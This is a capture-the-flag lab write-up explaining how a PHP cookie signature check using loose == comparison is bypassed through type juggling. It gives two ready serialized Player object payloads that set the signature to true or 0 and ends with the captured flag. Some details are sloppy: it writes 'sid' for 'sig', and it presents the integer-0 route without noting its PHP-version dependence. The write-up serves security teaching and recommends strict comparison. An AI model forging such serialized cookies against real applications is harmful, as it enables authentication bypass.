


# Happy Soldier - Revenge (BKSEC Training 2026)
---
## Overview
Same as [Happy Soldier](../Happy%20Soldier/README.md)

## Functionality analysis

Same as [Happy Soldier](../Happy%20Soldier/README.md)

Except for the cookie has been added with one more attribute: `sig`



## Reconnaissance

Same as [Happy Soldier](../Happy%20Soldier/README.md)

I found parameter allowing to view source code `src`

What interesting is:

```php
public function __wakeup() {
    $secret = file_get_contents('/secret.txt');
    if($this->sig == md5($secret . $this->weapon))
    {
        if (stripos($this->weapon, "Golden") !== false) {
            echo '<div class="flag-victory">
                <div class="victory-content">
                    <div class="victory-icon">🏆</div>
                    <div class="victory-title">VICTORY!</div>
                    <div class="victory-subtitle">You have conquered the Serialized Demon!</div>
                    <div class="flag-box">
                        <div class="flag-label">YOUR FLAG:</div>
                        <div class="flag-text">' . htmlspecialchars(file_get_contents('/flag.txt')) . '</div>
                    </div>
                </div>
                </div>';
        }
    }
}
```
- First condition: 
```php
$this->sig == md5($secret . $this->weapon)
```

This **sig** is compared with md5 hash of **secret** and salt is **weapon**. We control **weapon** but without **secret** we won't be able to bypass this.

- Second condition: 
```php
stripos($this->weapon, "Golden") !== false
```

The condition require **Golden** to be included in the weapon name.

## Vulnerability analysis
The server uses a rather loose condition when using `==`: which is a loose comparison, it is famous for its type coercion.

There is one case is that md5 is magic hash of this form: **0e{number}** (There are many string can be hashed to this, such as: `240610708`, `QNKCDZO`,...)

then php mechanism considers it as 0, so we can input 0e{number} or 0 to bypass.

However, in this case, the salt is our weapon, it's pretty hard for this trick to happen.

But in PHP, 
- If true is loosely compared with non-empty string, it's true.
> Due to type juggling or type coercion, **non-empty string** is casted to **boolean**: True
- If 0 is compared loosely with string starting with non-digit char, it's true
> When comparing number with string, string is casted to number: 123 = '123', but in this case, 'abc' is casted to 0, then the condition is True.

### Vulnerabilities:
This is called PHP Loose Comparison Vulnerability. In loose comparison, elements are often casted to same type and then compare their values, which can lead to many unexpected results. Dev should use **srtrict comparison** `===` instead.

## Exploitation

Approach 1: change value of **sid** to boolean true, remember to include **Golden** in weapon name and base64 before pasting into cookie.
```php
O:6:"Player":5:{s:6:"health";i:100;s:6:"attack";i:10;s:5:"coins";i:0;s:6:"weapon";s:12:"Golden Sword";s:3:"sig";b:1;}
```
Approach 2: change value of **sid** to integer 0
```php
O:6:"Player":5:{s:6:"health";i:100;s:6:"attack";i:10;s:5:"coins";i:0;s:6:"weapon";s:12:"Golden Sword";s:3:"sig";i:0;}
```



> ***BKSEC{c0ngratulat10ns_y0u_h4ve_m4st3red_th1s_g4me_d3a7b9}***